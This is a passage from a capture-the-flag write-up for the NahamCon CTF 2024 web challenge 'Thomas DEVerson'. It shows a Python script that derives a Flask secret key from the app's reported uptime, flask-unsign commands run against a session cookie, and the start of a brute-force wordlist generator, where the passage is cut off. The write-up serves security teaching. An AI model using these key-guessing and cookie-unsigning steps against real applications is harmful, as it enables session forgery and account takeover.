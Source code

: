 ## Exploitation

Armed with above information, we can try to guess the web application's Flask `secret_key` value!

According to the status page, the uptime is `82816 days 20 hours 5 minutes`. So, we can just calculate the original current time via this Python script:

```python
#!/usr/bin/env python3
from datetime import datetime, timedelta

if __name__ == '__main__':
    days = 82816
    hours = 20
    minutes = 5

    currentTime = datetime.now()
    calculatedTime = currentTime - timedelta(days=days, hours=hours, minutes=minutes)
    formattedCalculatedTime = calculatedTime.strftime('%Y%m%d%H%M')
    secretKey = f'THE_REYNOLDS_PAMPHLET-{formattedCalculatedTime}'

    print(f'[+] Calculated time: {calculatedTime}')
    print(f'[+] Formatted calculated time: {formattedCalculatedTime}')
    print(f'[+] Flask secret key: {secretKey}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:41:43(HKT)]
└> python3 calculate_time.py 
[+] Calculated time: 1797-08-29 17:37:25.967638
[+] Formatted calculated time: 179708291737
[+] Flask secret key: THE_REYNOLDS_PAMPHLET-179708291737
```

**Then, we can use the tool [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) to try to unsign our session cookie via the calculated secret key:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:54:59(HKT)]
└> echo -n 'THE_REYNOLDS_PAMPHLET-179708291737' > secret.txt                     
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:55:17(HKT)]
└> flask-unsign --unsign --wordlist ./secret.txt --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlAbKw.WzYFGTjPkBHcX_cfXZRslyKwUmY' 
[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[!] Failed to find secret key after 1 attempts.29
```

Nope... It doesn't work.

Oh... I forgot our timezone...

To solve this issue, let's just brute force the secret key!

**First, we'll need to prepare a wordlist via this Python script:**
```python
#!/usr/bin/env python3
from datetime import datetime, timedelta

def createWordlist(uptimeDay):
    OFFSET = 5
    MAX_HOUR = 24
    MAX_MINUTE = 60
    MIN_HOUR, MIN_MINUTE = 0, 0
    dayRange = range(uptimeDay - OFFSET, uptimeDay + OFFSET)
    hourRange = range(MIN_HOUR, MAX_HOUR)
    minuteRange = range(MIN_MINUTE, MAX_MINUTE)

    for day in dayRange:
```